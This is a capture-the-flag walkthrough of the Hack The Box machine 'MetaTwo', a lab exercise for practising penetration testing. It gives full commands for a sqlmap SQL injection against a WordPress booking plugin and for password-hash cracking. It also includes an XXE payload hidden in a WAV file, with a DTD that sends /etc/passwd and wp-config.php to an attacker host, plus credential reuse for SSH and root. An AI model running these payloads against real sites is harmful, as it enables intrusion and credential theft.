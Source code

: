 # 🧬 HTB: MetaTwo


## 🌐 Recon Phase

### Nmap Full Port Scan + Service Version Detection
```bash
nmap -p- --min-rate 10000 10.10.11.186
nmap -p 21,22,80 -sCV 10.10.11.186
```

### Add Host Mapping
```bash
echo "10.10.11.186 metapress.htb" | sudo tee -a /etc/hosts
```

### [Wfuzz for Subdomains](HTTP)
```bash
wfuzz -u http://10.10.11.186 -H "Host: FUZZ.metapress.htb" \
-w /opt/SecLists/Discovery/DNS/subdomains-top1million-5000.txt --hh 145
```

---

## 🧨 SQL Injection (BookingPress Plugin)

### Identify Nonce from Page Source
```bash
# Example nonce found in /events/ page JS
'_wpnonce=6027d5fa3e'
```

### SQLMap Setup
Save this as `sqli.req` (modified from Burp):
```http
POST /wp-admin/admin-ajax.php HTTP/1.1
Host: metapress.htb
Content-Type: application/x-www-form-urlencoded

action=bookingpress_front_get_category_services&_wpnonce=6027d5fa3e&category_id=33&total_service=223
```

### Run SQLMap
```bash
sqlmap -r sqli.req -p total_service --dbs
sqlmap -r sqli.req -p total_service -D blog --tables
sqlmap -r sqli.req -p total_service -D blog -T wp_users --dump
```

---

## 🔐 Cracking WordPress Hash

### Save Hashes
```text
admin:$P$BGrGrgf2wToBS79i07Rk9sN4Fzk.TV.
manager:$P$B4aNM28N0E.tMy/JIcnVMZbGcU16Q70
```

### Hashcat
```bash
hashcat -m 400 -a 0 wp.hashes /usr/share/wordlists/rockyou.txt --username
# Cracked: manager:partylikearockstar
```

---

## 🎯 XXE Exploit for File Disclosure

### payload.wav
```bash
echo -en 'RIFF\xb8\x00\x00\x00WAVEiXML\x7b\x00\x00\x00<?xml version="1.0"?><!DOCTYPE ANY[<!ENTITY % remote SYSTEM "http://10.10.14.6/evil.dtd">%remote;%init;%trick;]>\x00' > payload.wav
```

### evil.dtd (serve via Python HTTP server)
```xml
<!ENTITY % file SYSTEM "php://filter/convert.base64-encode/resource=/etc/passwd">
<!ENTITY % init "<!ENTITY &#x25; trick SYSTEM 'http://10.10.14.6/?p=%file;'>">
```

### Serve DTD
```bash
python3 -m http.server 80
```

---

## 🔐 Extract [FTP](FTP) + DB Credentials

From `evil.dtd`, modify to target:
```xml
php://filter/convert.base64-encode/resource=../wp-config.php
```

Expected credentials:
```php
define( 'FTP_USER', 'metapress.htb' );
define( 'FTP_PASS', '9NYS_ii@FyL_p5M2NvJ' );
```

---

## 📂 FTP Enumeration

```bash
ftp metapress.htb@metapress.htb
# Enter password from wp-config
```

Check files in `/mailer/send_email.php` → extract SMTP creds:
```php
$mail->Username = "jnelson@metapress.htb";
$mail->Password = "Cb4_JmWM8zUZWMu@Ys";
```

---

## 🧑‍💻 Shell as `jnelson`

```bash
sshpass -p 'Cb4_JmWM8zUZWMu@Ys' ssh jnelson@metapress.htb
cat ~/user.txt
```

---

## 🧬 Privilege Escalation via Passpie + GPG

### Extract `.keys` and Format with `gpg2john`
```bash
scp jnelson@metapress.htb:~/.passpie/.keys keys
gpg2john keys | tee gpg.hash
```

### Crack with John
```bash
john --wordlist=/usr/share/wordlists/rockyou.txt gpg.hash
# Found passphrase: blink182
```

### Retrieve Root Password via Passpie
```bash
passpie copy --to stdout --passphrase blink182 root@ssh
# Output: p7qfAZt4_A1xo_0x
```

---

## 🟢 Root Shell

```bash
su -
# Enter root pass: p7qfAZt4_A1xo_0x
cat /root/root.txt
```